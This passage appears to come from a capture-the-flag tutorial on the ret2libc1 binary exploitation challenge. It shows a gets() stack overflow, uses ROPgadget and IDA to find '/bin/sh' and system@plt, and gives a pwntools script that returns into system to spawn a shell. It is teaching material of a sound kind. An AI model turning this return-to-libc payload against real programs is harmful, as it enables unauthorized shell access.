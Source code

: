 ```c
  puts("RET2LIBC >_<");

gets ((char *) &amp; v4);
  return 0;

}

```



You can see that a stack overflow occurred while executing the gets function. Also, with ropgadget, we can see if /bin/sh exists


```shell

➜  ret2libc1 ROPgadget --binary ret2libc1 --string '/bin/sh'          

Strings information

============================================================

0x08048720 : /bin/sh

```



It does exist, look again to see if there is a system function. It is true that it is found in ida.


`` `asm
.plt:08048460 ; [00000006 BYTES: COLLAPSED FUNCTION _system. PRESS CTRL-NUMPAD+ TO EXPAND]

```



So, we go back directly to it, executing the system function. The corresponding payload is as follows


```python

#!/usr/bin/env python

from pwn import *



sh = process('./ret2libc1')



binsh_addr = 0x8048720

system_plt = 0x08048460
payload = flat(['a' * 112, system_plt, 'b' * 4, binsh_addr])

sh.sendline(payload)



sh.interactive()

```

